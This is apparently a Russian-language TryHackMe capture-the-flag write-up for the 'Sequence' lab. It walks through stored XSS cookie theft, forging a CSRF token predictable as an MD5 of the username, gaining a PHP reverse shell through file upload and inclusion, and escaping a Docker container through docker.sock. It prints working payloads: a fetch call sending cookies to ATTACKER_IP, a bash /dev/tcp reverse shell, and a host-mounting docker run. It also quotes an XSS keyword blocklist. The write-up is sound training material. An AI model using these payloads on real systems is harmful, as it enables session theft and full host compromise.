# Sequence

> Цепочка веб-эксплуатации от хранимой XSS и захвата сессии до повышения роли через предсказуемый CSRF-токен, выполнения PHP-кода и выхода из Docker-контейнера через доступный `docker.sock`.

## Общая информация

| Параметр | Значение |
| --- | --- |
| Платформа | TryHackMe |
| ОС | Ubuntu Linux |
| Категория | Web / Docker |
| Основные техники | Stored XSS, session hijacking, predictable CSRF token, file inclusion, file upload, reverse shell, Docker socket escape |

## Краткое резюме

Форма обратной связи оказалась уязвима к хранимой XSS, благодаря чему были получены cookie пользователя и доступ к защищённой части приложения. Анализ настроек и чата показал механизм повышения роли и предсказуемый CSRF-токен, вычисляемый как MD5 от имени пользователя. Ссылка на административный запрос была передана боту, что позволило повысить роль учётной записи `mod` до `admin`.

После получения административного доступа был найден небезопасный механизм подключения PHP-файлов и скрытая панель `finance.php` с загрузкой файлов. Загруженный `shell.php` был подключён через уязвимый механизм, что привело к `reverse shell` с правами `root` внутри контейнера. Доступ к `docker.sock` позволил примонтировать корневую файловую систему хоста в новый контейнер и получить доступ к финальному флагу.

## Разведка

### Сканирование TCP-портов

Первичное сканирование TCP-портов было выполнено с помощью утилиты `nmap`:

```shell
nmap -n -sV -p- TARGET_IP
```

```text
Nmap scan report for 10.112.169.134
Host is up (0.0059s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

В результате были обнаружены следующие открытые порты:

| PORT   | Service      |
| ------ | ------------ |
| 22/tcp | SSH          |
| 80/tcp | HTTP/web app |

### Поиск директорий

Перечисление директорий и файлов веб-приложения было выполнено с помощью утилиты `gobuster`:

```bash
gobuster dir -u http://TARGET_IP -w '/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt' -x php,js,html,py,log,txt,log,bak,old,conf,zip,sql
```

```text
/index.php            (Status: 200) [Size: 1694]
/contact.php          (Status: 200) [Size: 2246]
/new.html             (Status: 200) [Size: 562]
/login.php            (Status: 200) [Size: 1944]
/.php                 (Status: 403) [Size: 279]
/uploads              (Status: 301) [Size: 318] []] http://TARGET_IP/uploads/]
/header.php           (Status: 200) [Size: 1400]
/mail                 (Status: 301) [Size: 315] []] http://TARGET_IP/mail/]
/chat.php             (Status: 302) [Size: 0] []] login.php]
/db.php               (Status: 200) [Size: 0]
/javascript           (Status: 301) [Size: 321] []] http://TARGET_IP/javascript/]
/logout.php           (Status: 302) [Size: 0] []] index.php]
/settings.php         (Status: 302) [Size: 0] []] login.php]
/dashboard.php        (Status: 302) [Size: 1400] []] login.php]
/phpmyadmin           (Status: 301) [Size: 321]
```

Среди обнаруженных ресурсов особый интерес представлял каталог `/mail`, в котором находился текстовый файл со следующим содержимым:

```text
From: software@review.thm
To: product@review.thm
Subject: Update on Code and Feature Deployment

Hi Team,

I have successfully updated the code. The Lottery and Finance panels have also been created.

Both features have been placed in a controlled environment to prevent unauthorized access. The Finance panel (`/finance.php`) is hosted on the internal 192.x network, and the Lottery panel (`/lottery.php`) resides on the same segment.

For now, access is protected with a completed 8-character alphanumeric password [REDACTED], in order to restrict exposure and safeguard details regarding our potential investors.

I will be away on holiday but will be back soon.

Regards,
Robert
```

Из сообщения удалось получить служебные адреса электронной почты и пароль, используемый для защиты внутренних панелей. Кроме того, из текста следовало, что ресурсы `/finance.php` и `/lottery.php` размещены во внутреннем сетевом сегменте.

На данном этапе было выдвинуто предположение о наличии механизма, потенциально позволяющего обращаться к ресурсам внутренней сети, например SSRF или аналогичной серверной функциональности.

## Анализ веб-приложения

Все дальнейшие действия с веб-приложением выполнялись с использованием `Burp Suite` и его модулей.

### Исследование главной страницы

На главной странице веб-приложения расположены две кнопки: одна ведёт на страницу авторизации, вторая — на форму обратной связи.



### Исследование формы обратной связи

На ресурсе `/contact.php` расположена форма обратной связи. После отправки тестового сообщения с произвольным содержимым приложение сообщает, что сообщение будет рассмотрено одним из участников команды.



На машине атакующего был запущен HTTP-сервер:

```shell
python3 -m http.server
```

Для проверки формы на наличие XSS в поле `Message` была отправлена полезная нагрузка, предназначенная для передачи cookie жертвы на HTTP-сервер атакующего:

```html
<script>fetch("http://ATTACKER_IP:8000/?"+document.cookie)</script>
```

Через некоторое время на HTTP-сервер атакующего начали поступать запросы, содержащие cookie пользователя. Это подтвердило возможность выполнения внедрённого JavaScript-кода в контексте пользователя, просматривающего отправленные сообщения.

### Получение первого флага

Полученные cookie были использованы для подмены текущей сессии. После обновления страницы авторизации удалось получить доступ к первому флагу, а также к страницам чата, настроек и обратной связи.



### Исследование настроек

На ресурсе `/settings.php` расположена панель настроек, содержащая функциональность повышения привилегий пользователя до уровня администратора.



При попытке указать имя пользователя `mod` приложение возвращало сообщение: «Эта функция доступна только администраторам».

Анализ HTTP-запросов, перехваченных с помощью `Burp Suite`, показал, что страница использует CSRF-токен, а нажатие кнопки `Promote to Admin` приводит к отправке HTTP GET-запроса на `/promote_coadmin.php`.

Одновременно было установлено, что переход через ресурс `/new.html` инициирует HTTP POST-запрос без CSRF-токена, в теле которого передаётся имя пользователя, доступ к учётной записи которого уже был получен.

### Исследование чата

На ресурсе `/chat.php` расположен чат с администратором.



Была предпринята попытка заставить администратора либо отправить свои cookie на HTTP-сервер атакующего, либо перейти на ресурс `/new.html`.

Для этого в чат была отправлена следующая полезная нагрузка:

```html
<script>fetch("http://ATTACKER_IP:8001/?"+document.cookie)</script>
```

> Для разделения запросов от разных XSS-проверок на машине атакующего был запущен отдельный HTTP-сервер на порту `8001` командой `python3 -m http.server 8001`.

После отправки полезной нагрузки веб-приложение вернуло ошибку, сообщающую о наличии «подозрительного содержимого».



Анализ клиентского кода страницы позволил определить, какие строки считаются приложением опасными:

```html
<script>
document.getElementById("chatForm").addEventListener("submit", function(e) {
    const msg = document.querySelector('input[name="message"]').value.toLowerCase();
    const dangerous = ["<script>", "</script>", "onerror", "onload", "fetch", "ajax", "xmlhttprequest", "eval", "document.cookie", "window.location"];
    for (let keyword of dangerous) {
        if (msg.includes(keyword)) {
            e.preventDefault();
            const modal = new bootstrap.Modal(document.getElementById("warningModal"));
            modal.show();
            break;
        }
    }
});
</script>
```

Для обхода чёрного списка в чат была отправлена следующая полезная нагрузка:

```html
"</div><div>
```

После этого на HTTP-сервер атакующего поступил запрос:

```http
"GET /'%22%3E%3Cdiv%3E HTTP/1.1" 404
```

Полученный запрос позволил предположить, что бот, работающий от имени администратора, автоматически обрабатывает или посещает ссылки, содержащиеся в сообщениях чата. Это открывало возможность использовать его сессию для выполнения запроса от имени администратора.

### Получение второго флага

В качестве первой попытки эксплуатации механизма повышения привилегий в чат администратору была отправлена ссылка `http://TARGET_IP/new.html`. Однако переход на данный ресурс не привёл к изменению роли пользователя.

После этого был дополнительно исследован CSRF-токен со страницы настроек. По формату он представлял собой 32-символьное шестнадцатеричное значение, что позволило предположить использование MD5.

Проверка через CrackStation показала, что токен пользователя `mod` является MD5-хэшем строки `mod`, то есть имени текущей учётной записи.



Это означало, что CSRF-токен формируется предсказуемым образом. Для административной учётной записи был вычислен MD5-хэш строки `admin`, после чего полученное значение было подставлено в запрос повышения привилегий пользователя `mod`:

```url
http://review.thm/promote_coadmin.php?username=mod&csrf_token_promote=21232f297a57a5a743894a0e4a801fc3
```

Сформированная ссылка была отправлена в чат с администратором. Через некоторое время роль учётной записи `mod` изменилась на `admin`, что подтверждалось доступом к `/dashboard.php`.



После повторной авторизации, предварительно сменив пароль через страницу настроек, был получен доступ к административной функциональности и второму флагу.



> Несмотря на сообщение о неверных авторизационных данных на странице входа, авторизация фактически завершалась успешно.

### Обнаружение File Inclusion

На административной панели при выборе пункта `Lottery` из выпадающего списка отображается ресурс `/lottery.php`, который, согласно ранее обнаруженному сообщению разработчика, относится к функциональности внутренней сети.

Фрагмент кода страницы `/dashboard.php`:

```html
<form method="post" enctype="multipart/form-data" class="mb-4">
                <div class="row g-2 align-items-center">
                    <div class="col-md-4">
                        <select name="feature" class="form-select" onchange="this.form.submit()">
                            <option value="">-- Select Feature --</option>
                            <option value="lottery.php" selected>Lottery Feature</option>
                        </select>
                    </div>
                </div>
            </form>
```

Наличие передаваемого имени PHP-файла указывало на потенциально небезопасный механизм включения локальных файлов. Для проверки значение `lottery.php` было заменено на `finance.php`.

После повторной отправки запроса на странице отобразилась форма из `/finance.php`:



После ввода пароля, обнаруженного ранее в `/mail/dump.txt`, стал доступен функционал загрузки файлов на сервер.



### Получение Reverse Shell

На машине атакующего был создан файл `shell.php` со следующим содержимым:

```php
<?php
shell_exec("bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/LPORT 0>&1'")
?>
```

Затем на порту `LPORT` был запущен слушатель `Netcat`:

```shell
nc -lvnp LPORT
```

Файл `shell.php` был загружен на целевой сервер через обнаруженную форму. После этого значение включаемого файла в запросе к `/dashboard.php` было изменено таким образом, чтобы при выборе `Lottery Feature` сервер обработал загруженный PHP-файл.

 gid=0(root) groups=0(root)

whoami
root
```

Команды показали, что текущий процесс выполняется от имени пользователя `root`.

Наличие файла `.dockerenv` в корневом каталоге, а также характерное имя хоста указывали на выполнение кода внутри Docker-контейнера:

```text
ls / -lah
total 60K
drwxr-xr-x   1 root root 4.0K Jun  4  2025 .
drwxr-xr-x   1 root root 4.0K Jun  4  2025 ..
-rwxr-xr-x   1 root root    0 Jun  4  2025 .dockerenv
lrwxrwxrwx   1 root root    7 May 20  2025 bin -> usr/bin
drwxr-xr-x   2 root root 4.0K May  9  2025 boot
...
```

Дополнительно были проверены Linux capabilities:

```shell
capsh --print
Current: cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap=ep
```

В контейнере также был обнаружен доступный `docker.sock`. Наличие доступа к сокету Docker daemon позволяло управлять Docker на хосте и, в частности, запустить новый контейнер с примонтированной корневой файловой системой хоста.

Для определения доступных образов был выполнен следующий запрос:

```shell
root@4f18a45cca05:/# docker images
docker images
REPOSITORY      TAG       IMAGE ID       CREATED         SIZE
phpvulnerable   latest    d0bf58293d3b   14 months ago   926MB
php             8.1-cli   0ead645a9bc2   17 months ago   527MB
```

### Получение финального флага

Для доступа к файловой системе Docker-хоста был запущен новый контейнер с монтированием корневого каталога `/` в `/mnt`, после чего был выполнен `chroot`:

```shell
root@4f18a45cca05:/# docker run -v /:/mnt --rm -i phpvulnerable chroot /mnt /bin/bash
< /:/mnt --rm -i phpvulnerable chroot /mnt /bin/bash
```

В результате была получена оболочка с доступом к корневой файловой системе хоста. Финальный флаг находился в каталоге `/root`:

```shell
ls /root
bin
flag.txt
lib
root
share
snap
~

cat /root/flag.txt
```

## Итог

В рамках данного CTF была построена полноценная цепочка компрометации, начинавшаяся с уязвимости веб-приложения и завершившаяся получением доступа к файловой системе Docker-хоста.

Первоначальный доступ к защищённой части приложения был получен благодаря XSS в форме обратной связи: выполнение внедрённого JavaScript-кода позволило перехватить cookie пользователя и захватить его сессию. Дальнейший анализ административной функциональности выявил слабую реализацию CSRF-защиты — токен формировался как предсказуемый MD5-хэш имени пользователя. Использование административного бота позволило выполнить подготовленный запрос в контексте его сессии и повысить привилегии учётной записи `mod` до уровня администратора.

После получения административного доступа был обнаружен небезопасный механизм включения локальных PHP-файлов. Через него удалось открыть скрытую панель `finance.php`, а обнаруженный ранее пароль предоставил доступ к загрузке файлов. Совмещение загрузки PHP-файла с механизмом File Inclusion привело к выполнению произвольного PHP-кода и получению reverse shell с привилегиями `root` внутри Docker-контейнера.

Финальным этапом стала проверка контейнерного окружения. Доступный `docker.sock` позволил взаимодействовать с Docker daemon хоста, запустить контейнер с примонтированной корневой файловой системой и выполнить `chroot`, фактически получив доступ к системе хоста и финальному флагу.

Ключевой особенностью задания стала именно последовательная эксплуатация нескольких недостатков безопасности: XSS, слабой защиты от CSRF, небезопасного включения файлов, загрузки исполняемого содержимого и чрезмерно привилегированного доступа к Docker socket. По отдельности не все из этих проблем обеспечивали полную компрометацию системы, однако их объединение в единую цепочку атаки позволило последовательно расширять уровень доступа вплоть до Docker-хоста.

## Ключевые выводы

- Хранимая XSS может использоваться не только для кражи cookie, но и как первый этап цепочки повышения привилегий внутри приложения.
- CSRF-токен, детерминированно вычисляемый из известного имени пользователя, не обеспечивает защиту от подделки запросов.
- File Inclusion становится критическим при наличии возможности загрузить исполняемый файл на сервер.
- Доступ к `/var/run/docker.sock` из контейнера фактически предоставляет контроль над Docker daemon хоста и часто означает возможность выхода из контейнера.

## Использованные инструменты

| Инструмент | Использование |
| --- | --- |
| `Nmap` | Сканирование портов |
| `Gobuster` | Перечисление веб-ресурсов |
| `Burp Suite` | Анализ и модификация HTTP-запросов |
| `Python http.server` | Приём XSS-запросов и раздача файлов |
| `Netcat` | Приём reverse shell |
| `Docker CLI` | Управление Docker daemon через доступный socket |

## Примечание

> Материал подготовлен в образовательных целях. Все действия выполнялись в контролируемой лабораторной среде TryHackMe.
